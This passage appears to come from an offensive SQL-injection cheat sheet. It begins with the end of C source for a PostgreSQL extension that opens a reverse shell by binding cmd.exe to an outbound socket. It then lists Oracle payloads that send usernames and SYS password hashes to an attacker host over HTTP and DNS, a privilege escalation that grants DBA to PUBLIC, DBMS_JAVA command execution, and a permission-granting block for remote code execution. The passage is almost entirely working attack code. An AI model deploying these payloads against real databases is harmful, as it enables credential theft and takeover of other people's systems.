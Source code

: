 ```c

    WSAStartup(MAKEWORD(2, 2), &wsaData);
    s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

    hax.sin_family = AF_INET;
    hax.sin_port = htons(PG_GETARG_INT32(1));
    hax.sin_addr.s_addr = inet_addr(GET_STR(PG_GETARG_TEXT_P(0)));

    WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&sui, 0, sizeof(sui));
    sui.cb = sizeof(sui);
    sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
    sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) s1;

    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
    PG_RETURN_VOID();
}
```
## Oracle 

- `7521’||UTL_HTTP.request(‘mdattacker.net:80/’|| (SELECT%20username%20FROM%20all_users%20WHERE%20ROWNUM%3d1))--`
- `7521’||UTL_INADDR.GET_HOST_NAME((SELECT%20PASSWORD% 20FROM%20DBA_USERS%20WHERE%20NAME=’SYS’)||’.mdattacker.net’)`
- UTL_SMTP
- UTL_TCP
- `SYS.DBMS_LDAP.INIT((SELECT PASSWORD FROM SYS.USER$ WHERE NAME=’SYS’)||’.mdsec.net’,80)`
- `select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES(‘INDX’,’SCH’, ‘TEXTINDEXMETHODS”.ODCIIndexUtilCleanup(:p1); execute immediate ‘’declare pragma autonomous_transaction; begin execute immediate ‘’’’grant dba to public’’’’ ; end;’’; END;--’,’CTXSYS’,1,’1’,0) from dual`
- `DBMS_JAVA.RUNJAVA(‘oracle/aurora/util/Wrapper c:\\windows\\system32\\ cmd.exe /c dir>c:\\OUT.LST’)`
  - <www.databasesecurity.com/HackingAurora.pdf>
  - <www.notsosecure.com/folder2/2010/08/02/blackhat-2010/>

### RCE 

Add permissions (sqlPlus required): 
```sql
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```

